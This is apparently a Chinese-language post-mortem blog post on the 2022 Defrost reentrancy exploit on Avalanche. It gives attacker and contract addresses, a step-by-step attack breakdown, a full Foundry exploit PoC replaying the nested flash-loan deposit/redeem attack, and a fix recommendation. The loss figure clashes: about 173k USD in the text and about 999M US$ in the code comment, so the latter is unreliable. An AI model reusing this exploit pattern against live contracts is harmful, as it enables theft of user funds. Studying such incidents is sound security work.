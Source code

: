 ```yaml
---
title: Defrost @Reentrancy
categories: Attack_Events_Analysis
tags:
  - Reentrancy
date: 2024-04-02 10:00
---
```


#### 事件资讯

- *时间: 2022-12-23*
- *损失: ~173k usd*
- *原因：跨函数重入，合约中`flashLoan()`函数和`deposit()`函数没有重入锁，`hacker` 将`flasLoan()`借贷的 assert 在回调函数中存入合约，从而实现套利。*

#### 链上资讯

- *Chain:  Avalanche*
- *Hacker Address: 0x7373dca267bdc623dfba228696c9d4e8234469f6*
- *Attack Contract: 0x792e8f3727cad6e00c58d478798f0907c4cec340*
- *Attack Tx：0xc6fb8217e45870a93c25e2098f54f6e3b24674a3083c30664867de474bf0212d*
- **Vulnerable Contract : 0xff152e21c5a511c478ed23d1b89bb9391be6de96*
- *pair(WAVAX ,USDC)：0xf4003F4efBE8691B60249E6afbD307aBE7758adb[Joe LP Token (JLP)]*

#### 资金流向

![image-20241121161601582](Defrost@Reentrancy/image-20241121161601582.png)

#### 攻击流程

![image-20241121165147551](Defrost@Reentrancy/image-20241121165147551.png)

#### 攻击解析

> *tips: 本次攻击的核心便是使用了`lending`合约中借来的`USD`进行存款【跨函数的重入攻击】*

1. hacker 先从`pair(WAVAX ,USDC)`中借出大量 `USD1`；
2. hacker 在`pair(WAVAX ,USDC)`执行闪电贷，在攻击合约的回调函数中去调用`Lending`合约的`flashLoan()`函数，借出大量的`USD2`；
3. 此时进入二层闪电贷，在该层闪电贷中调用`lending`合约的`deposit()`函数，将`USD2`存入并获取`share`凭证，随后使用`USD1`对二层闪电贷进行还款，自此二层闪电贷结束；
4. 回到一层闪电贷中，执行`lending`合约中的`redeem()`函数，将`share`换作`USD3`，使用`USD3`对一层闪电贷进还款，自此一层闪电贷结束；
5. hacker最终获利 `~= USD3 - USD1`。



#### 攻击复现

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {IERC20, Uni_Pair_V2, CheatCodes} from "./interface.sol";

// @KeyInfo - Total Lost : ~999M US$
// Attacker : 0x7373dca267bdc623dfba228696c9d4e8234469f6
// Attack Contract : 0x792e8f3727cad6e00c58d478798f0907c4cec340
// Vulnerable Contract : 0xff152e21c5a511c478ed23d1b89bb9391be6de96

// Attack Tx : https://snowtrace.io/tx/0xc6fb8217e45870a93c25e2098f54f6e3b24674a3083c30664867de474bf0212d

// @Info
// Vulnerable Contract Code : https://snowscan.xyz/address/0xff152e21c5a511c478ed23d1b89bb9391be6de96#code

// @Analysis
// Twitter PeckShield : https://twitter.com/PeckShieldAlert/status/1606276020276891650


interface LSWUSDC {
    function maxFlashLoan(
        address token
    ) external view returns (uint256);
    function flashFee(address token, uint256 amount) external view returns (uint256);
    function flashLoan(address receiver, address token, uint256 amount, bytes calldata data) external;
    function deposit(uint256 amount, address to) external returns (uint256);
    function redeem(uint256 shares, address receiver, address owner) external;
}

contract Defrost_Attack is Test {
    IERC20 USDC = IERC20(0xB97EF9Ef8734C71904D8002F8b6Bc66Dd9c48a6E);
    LSWUSDC LSW = LSWUSDC(0xfF152e21C5A511c478ED23D1b89Bb9391bE6de96);
    Uni_Pair_V2 Pair = Uni_Pair_V2(0xf4003F4efBE8691B60249E6afbD307aBE7758adb);
    uint256 flashLoanAmount;
    uint256 flashLoanFee;
    uint256 depositAmount;

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    function setUp() public {
        cheats.createSelectFork("Avalanche", 24_003_940);
    }

    function testExploit() public {
        flashLoanAmount = LSW.maxFlashLoan(address(USDC));
        flashLoanFee = LSW.flashFee(address(USDC), flashLoanAmount);
        Pair.swap(0, flashLoanAmount + flashLoanFee, address(this), new bytes(1));

        emit log_named_decimal_uint("[End] Attacker USDC balance after exploit", USDC.balanceOf(address(this)), 6);
    }

    function joeCall(address _sender, uint256 _amount0, uint256 _amount1, bytes calldata _data) external {
        LSW.flashLoan(address(this), address(USDC), flashLoanAmount, new bytes(1));
        LSW.redeem(depositAmount, address(this), address(this));
        USDC.transfer(address(Pair), (flashLoanAmount + flashLoanFee) * 1000 / 997 + 1000);
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        USDC.approve(address(LSW), type(uint256).max);
        depositAmount = LSW.deposit(flashLoanAmount, address(this));
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```



#### 总结与建议

- 建议给涉及资金存取的函数加入重入锁，比如`flasLoan()`和`deposit()`函数。